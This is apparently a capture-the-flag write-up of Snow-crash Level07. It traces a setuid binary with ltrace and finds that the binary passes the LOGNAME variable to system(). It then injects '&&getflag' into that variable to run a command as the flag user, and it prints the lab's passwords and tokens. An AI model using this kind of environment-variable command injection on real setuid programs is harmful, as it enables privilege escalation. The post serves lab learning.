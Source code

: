 ```yaml
---
title:  "Snow-crash Level07"
excerpt: "Project SECURITY. This project is a modest introduction to the wide world of cyber security. A world where you’ll have no margin for errors."

tags:
  - [CyberSecurity,Github, Git]

toc: true
toc_sticky: true

date: 2024-2-15
last_modified_at: 2024-02-15
categories: cyber-security
---
```


#### 1. The password of `Level07` is the token that got from `Level06`.

```bash
wiok45aaoguiboiki2tuin6ub
```

#### 2. So, try login to Level07 with the password we got from Level06 and try to put the command `ls`. We can see the file `Level07`. and try to execute.

```bash
level06@SnowCrash:~$ su level07
Password:
level07@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level07 level07  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
level07@SnowCrash:~$ ./level07
level07
```
#### 3. Try to put `file` command
```bash
level07@SnowCrash:~$ file level07
level07: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x26457afa9b557139fa4fd3039236d1bf541611d0, not stripped
```
It's a binary file. 

#### 4. So, let's use ltrace command to understand/to debug the behavior of this program

```bash
level07@SnowCrash:~$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7a4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                 = 2007
geteuid()                                 = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280) = 0
getenv("LOGNAME")                         = "level07"
asprintf(0xbffff6f4, 0x8048688, 0xbfffff2c, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                    = 0
+++ exited (status 0) +++
```
We can see the getenv("LOGNAME") = "level07"

```
level07@SnowCrash:~$ echo $LOGNAME
level07
```
#### 5. Try to do the small tests as below.

```
level07@SnowCrash:~$ export LOGNAME="HELLO_WORLD";
level07@SnowCrash:~$ ./level07
HELLO_WORLD
```

```
level07@SnowCrash:~$ export
declare -x HOME="/home/user/level07"
declare -x LANG="en_US.UTF-8"
declare -x LC_CTYPE="UTF-8"
declare -x LC_TERMINAL="iTerm2"
declare -x LC_TERMINAL_VERSION="3.4.23"
declare -x LESSCLOSE="/usr/bin/lesspipe %s %s"
declare -x LESSOPEN="| /usr/bin/lesspipe %s"
declare -x LOGNAME="HELLO_WORLD"
```
We can see the line `declare -x LOGNAME="HELLO_WORLD"`

#### 6. So then, we try to put getflag in the LOGNAME. 

```bash
level07@SnowCrash:~$ export LOGNAME="&&getflag"
level07@SnowCrash:~$ ./level07

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

#### 7. We got a token for level 08. 
```
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```